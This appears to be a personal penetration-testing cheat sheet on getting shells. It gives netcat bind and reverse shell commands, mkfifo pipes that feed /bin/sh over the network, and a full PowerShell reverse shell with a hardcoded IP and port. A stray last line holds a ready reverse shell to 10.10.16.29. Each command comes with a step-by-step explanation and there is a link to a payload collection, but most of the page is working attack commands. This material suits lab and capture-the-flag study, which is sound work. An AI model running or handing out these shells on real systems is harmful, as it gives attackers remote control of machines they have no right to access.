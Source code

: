 ## netcat connection
##### 1. Executing a process on action using netcat listener. 
**Example** - 
```python
nc -lvnp <PORT> -e /bin/bash
```
Connecting to the above listener with netcat would result in a **bind shell** on the target.

##### 2. Equally, for a reverse shell, connecting back would result in a **reverse shell** on the target with the below command:
```python
nc <LOCAL-IP> <PORT> -e /bin/bash
```

##### 3. On **Linux**, however, we would instead use this code to create a listener for a **bind shell**:
```python
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc -lvnp <PORT> < /tmp/f`: This sets up a netcat (nc) listener on a specified port (PORT) and redirects the input to come from the named pipe "/tmp/f". Netcat is a utility used for network communication.
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.
![[shells9.png]]

##### 4. A very similar command can be used to send a netcat reverse shell:
```python
mkfifo /tmp/f; nc <attacker-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc <LOCAL-IP> <PORT> < /tmp/f`: This uses netcat (nc) to connect to a specified IP address (LOCAL-IP) and port number (PORT). It redirects the input to come from the named pipe "/tmp/f".
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.

![[shells10.png]]

##### 5. Powershell reverse shell to exploit a modern Windows Server
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.17.47.177',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- In order to use this, we need to replace "IP" and "port" with an appropriate IP and choice of port.
- The above powershell script will work but you need to url encod it first.
- It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
![[shells11.png]]

**For other common reverse shell payloads visit this repo** --> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

mkfifo /tmp/f; nc 10.10.16.29 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
